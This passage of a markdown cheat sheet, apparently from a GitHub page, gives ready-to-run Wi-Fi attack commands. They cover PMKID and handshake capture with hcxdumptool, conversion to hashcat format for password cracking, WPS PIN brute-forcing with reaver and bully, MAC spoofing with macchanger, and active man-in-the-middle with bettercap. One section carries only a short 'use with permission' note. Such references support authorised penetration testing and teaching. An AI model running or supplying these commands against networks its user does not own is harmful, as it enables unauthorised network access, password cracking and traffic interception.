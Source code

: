 ## 6) PMKID / modern options (hcxdumptool / hcxtools)
```bash
# Capture PMKID and handshakes (pcapng)
sudo hcxdumptool -i wlan0mon -o dump.pcapng --enable_status=1

# Convert pcapng to Hashcat format (hashcat mode 22000)
hcxpcapngtool -o hashcat.22000 dump.pcapng
# or older: hcxpcaptool -z hash.hccapx dump.pcapng
```
Why use these:
- `hcxdumptool` can capture PMKID from AP beacons/association and is useful when client handshakes are hard to obtain.

---

## 7) WPS-related tools (use with permission)
```bash
# Find WPS-enabled APs
sudo wash -i wlan0mon

# Attempt WPS PIN recovery (very noisy & may lock AP)
sudo reaver -i wlan0mon -b <BSSID> -vv
sudo bully -b <BSSID> -i wlan0mon
```
Warning: Reaver/Bully can lock WPS or trip intrusion defenses.

---

## 8) MAC spoofing & helpers
```bash
# Bring interface down, change MAC, bring up
sudo ip link set wlan0 down
sudo macchanger -r wlan0
sudo ip link set wlan0 up

# Or using iproute2 to set specific MAC
sudo ip link set dev wlan0 address 12:34:56:78:9A:BC
```

---

## 9) Passive/advanced tools
```bash
# Kismet: passive detector & sniffer with UI & extensive logging
sudo kismet

# Bettercap: active MITM framework (Wi-Fi, BLE, proxies)
sudo bettercap -iface wlan0mon
```

---
